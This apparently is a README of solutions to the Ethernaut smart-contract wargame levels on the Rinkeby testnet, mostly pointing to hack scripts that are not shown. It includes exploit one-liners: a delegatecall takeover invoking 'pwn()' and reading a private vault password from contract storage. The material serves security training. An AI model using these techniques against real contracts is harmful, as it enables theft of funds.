 # Ethernaut

## Coin Flip

Set up the `.env` file with your HTTP_ENDPOINT, PRIVATE_KEY and coin flip instance address.

```dotenv
PRIVATE_KEY="0x0000000000000000000000000000000000000000000000000000000000000000"
HTTP_ENDPOINT="https://eth-rinkeby.alchemyapi.io/v2/xxx"
COIN_FLIP_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/coin_flip_hack.js --network rinkeby
```

## Delegation

```js
await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
```

## Force

Set your force contract address in `.env`.

```
FORCE_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/force_hack.js --network rinkeby
```

references:
- https://ethereum.stackexchange.com/questions/63987/can-a-contract-with-no-payable-function-have-ether/63988#63988
- https://solidity-by-example.org/hacks/self-destruct/ 

## Vault

Get the password with below command run in console.

```
await web3.eth.getStorageAt(instance, 1, console.log)
```

You can use [etherscan](https://rinkeby.etherscan.io) to run the `unlock` function.

## King

Set your king contract address in `.env`.

```
KING_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/king_hack.js --network rinkeby
```

## Reentrance

Set your reentrance contract address in `.env`.

```
REENTRANCE_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/reentrance_hack.js --network rinkeby
```
